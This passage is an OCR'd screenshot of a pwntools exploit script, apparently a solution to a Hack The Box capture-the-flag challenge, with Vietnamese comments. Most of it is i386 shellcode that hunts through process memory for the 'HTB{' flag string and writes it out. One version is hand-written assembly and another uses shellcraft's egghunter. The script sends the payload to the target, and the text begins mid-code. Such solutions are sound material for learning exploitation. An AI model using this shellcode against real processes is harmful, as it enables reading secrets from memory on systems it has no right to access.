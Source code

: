 ```
                xor ebx,ebx
                mov edx,0x400
                int 0x80
                ''',arch = 'i386')

shellcode2 = asm('''
                khoi_tao:
                    mov edi,0x60000000

                search:
                    mov eax,4
                    mov ebx,1
                    mov ecx,edi
                    mov edx,1
                    int 0x80
                    cmp al,0xf2
                    je loop
                    jmp check
                loop:
                    add edi,0x10000
                    jmp search
                check:

                    mov al, [edi+0]
                    cmp al,'H'
                    jne search

                    mov al,[edi+1]
                    cmp al,'T'
                    jne search

                    mov al,[edi+2]
                    cmp al,'B'
                    jne search

                    mov al,[edi+3]
                    cmp al,'{'
                    jne search

                    mov eax,4
                    mov ebx,1
                    mov ecx,edi
                    mov edx,0x200
                    int 0x80
                 ''',arch='i386')
#p.send(shellcode1.ljust(0x3c,b'a') + b'a'*0xe + shellcode2)

#cach 2

shellcode3 = asm(shellcraft.i386.linux.egghunter('HTB{'))

#sau khi tim kiem chuoi nay no se tra ve 1 dia chi , ta se dung xchg de chuyen no vao ecx

shellcode3 += asm('''
                 xor eax,eax
                 xchg ecx,ebx
                 inc ebx
                 mov al,0x4
                 int 0x80
                 ''',arch='i386'
                 )
print(len(shellcode3))
p.send(shellcode3)
```